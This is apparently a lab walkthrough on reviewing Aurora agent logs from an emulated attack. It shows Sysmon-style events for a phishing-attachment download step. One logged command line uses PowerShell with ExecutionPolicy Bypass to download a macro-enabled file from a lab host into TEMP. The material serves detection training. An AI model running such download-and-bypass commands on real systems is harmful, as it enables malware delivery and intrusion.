 Rerun the operation and wait till it finishes, then review the logs. If you prefer to run abilities individually and review their logs. Create a new operation and check **Pause on Start.** Then run the operation by clicking on **Run 1 Link, w**hich will run one ability and pause when it finishes

<img width="1122" height="643" alt="image" src="https://github.com/user-attachments/assets/ab130dd1-6e7e-464a-9fcb-e2f47bb1edfc" />

If Aurora logs are not showing, check the expiration time; if it has expired, change the machine time. Then restart it from **services.msc**

<img width="944" height="692" alt="image" src="https://github.com/user-attachments/assets/77bea34f-45dc-4e6b-a690-1162f7e69c63" />

Machine time after I change it.

<img width="560" height="399" alt="image" src="https://github.com/user-attachments/assets/eaec061c-212a-4904-8842-b2aa55652bba" />

Check List of [EventID-AuroraAgent](https://aurora-agent-manual.nextron-systems.com/en/latest/usage/event-id-list.html)

### Initial Access: Download Macro-Enabled Phishing Attachment

EventID: 1

```
 RuleName - 
  UtcTime 2025-03-31 10:51:46.187 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  Company Microsoft Corporation 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$url = 'http://10.10.39.5:8080/PhishingAttachment.xlsm'; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm" 
  ParentProcessId 5464 

```

File Create EventID 11

```
UtcTime 2025-03-31 10:51:46.493 
  ProcessGuid {c5d2b969-73c2-67ea-4501-000000002901} 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  TargetFilename C:\Users\Administrator\AppData\Local\Temp\2\PhishingAttachment.xlsm 
  CreationUtcTime 2025-08-08 09:14:32.351 
```

Network Connection Detection: EventID 3

```
 RuleName Proxy 
  UtcTime 2025-08-24 10:52:24.435 
  ProcessId 1012 
  Image <unknown process> 
  User - 
  Protocol tcp 
  Initiated true 
  SourceIsIpv6 false 
  SourceIp 10.10.4.48 
  SourceHostname VICTIM.eu-west-1.compute.internal 
  SourcePort 49974 
  SourcePortName - 
  DestinationIsIpv6 false 
  DestinationIp 10.10.39.5 
  DestinationHostname ip-10-10-39-5.eu-west-1.compute.internal 
  DestinationPort 8080 
  DestinationPortName - 

```